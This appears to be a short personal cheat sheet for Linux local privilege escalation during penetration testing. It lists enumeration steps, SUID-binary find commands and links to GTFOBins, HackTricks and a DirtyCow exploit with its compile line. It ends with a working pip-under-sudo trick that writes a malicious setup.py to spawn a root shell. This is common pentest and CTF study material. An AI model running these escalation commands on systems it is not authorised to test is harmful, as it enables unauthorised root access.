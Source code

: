 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses


# Sticky-Bit

```

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

```

# Find files belonging to user

`find / -user low 2>/dev/null | egrep -v "proc|venv"`
`find / -group low 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpfull if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):
```
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo -H /usr/bin/pip3 install $TF
```